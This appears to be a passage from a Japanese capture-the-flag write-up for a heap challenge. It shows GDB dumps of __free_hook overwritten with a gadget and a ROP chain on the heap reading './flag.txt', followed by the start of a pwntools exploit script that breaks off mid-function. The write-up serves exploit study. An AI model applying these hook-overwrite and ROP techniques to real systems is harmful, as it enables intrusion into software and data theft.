下記は、__free_hookにmov rdx, qword ptr [rdi + 8];...のアドレスを設定した状態
0x7ffff7f8de30 <fork_handlers+1552>:	0x0000000000000000	0x0000000000000000
0x7ffff7f8de40 <__after_morecore_hook>:	0x000055555555b2c0	0x00007ffff7ef08b0


下記はヒープにROPを書き込んだ状態
0x55555555b290:	0x0000000000000000	0x0000000000000021
0x55555555b2a0:	0x000055555555a770	0x0000555555559010
0x55555555b2b0:	0x0000000000000001	0x0000000000000211
0x55555555b2c0:	0x4141414141414141	0x4141414141414141
0x55555555b2d0:	0x4141414141414141	0x4141414141414141
0x55555555b2e0:	0x00007ffff7df3f8d	0x4242424242424242
0x55555555b2f0:	0x4242424242424242	0x4242424242424242
0x55555555b300:	0x4242424242424242	0x4242424242424242
0x55555555b310:	0x4242424242424242	0x4242424242424242
0x55555555b320:	0x4242424242424242	0x4242424242424242
0x55555555b330:	0x4242424242424242	0x4242424242424242
0x55555555b340:	0x4242424242424242	0x4242424242424242
0x55555555b350:	0x4242424242424242	0x4242424242424242
0x55555555b360:	0x000055555555b370	0x00007ffff7dc1679
0x55555555b370:	0x00007ffff7de6400	0x0000000000000002
0x55555555b380:	0x00007ffff7dc2b72	0x000055555555b418
0x55555555b390:	0x00007ffff7dc504f	0x0000000000000000
0x55555555b3a0:	0x00007ffff7e020d9	0x00007ffff7dc2b72
0x55555555b3b0:	0x0000000000000000	0x00007ffff7e90b95
0x55555555b3c0:	0x00007ffff7dc504f	0x000055555555d000
0x55555555b3d0:	0x00007ffff7eb8241	0x0000000000000080
0x55555555b3e0:	0x0000000000000000	0x00007ffff7e020d9
0x55555555b3f0:	0x00007ffff7de6400	0x0000000000000001
0x55555555b400:	0x00007ffff7dc2b72	0x0000000000000001
0x55555555b410:	0x00007ffff7e020d9	0x742e67616c662f2e
0x55555555b420:	0x0000000000007478	0x0000000000000000
0x55555555b430:	0x0000000000000000	0x0000000000000000


Exploitコードは下記になります。
```
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './memory'
context.binary = elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "20.216.39.14"
  PORT = 1235
  s = remote(HOST, PORT)
  libc = ELF("./libc.so.6")
else:
  s = process(BINARY)
  #s = process(BINARY, env={'LD_PRELOAD': './libc-2.23.so'})
  libc = elf.libc
  
def Read(where):
  s.sendlineafter(">> ", "1")
  s.sendlineafter(">> ", hex(where)) 

def Write(where, data):
  s.sendlineafter(">> ", "2")
  s.sendlineafter(">> ", hex(where)) 
  s.sendlineafter(">> ", hex(data))
  
def Alloc(size, data): 
  s.sendlineafter(">> ", "3")
```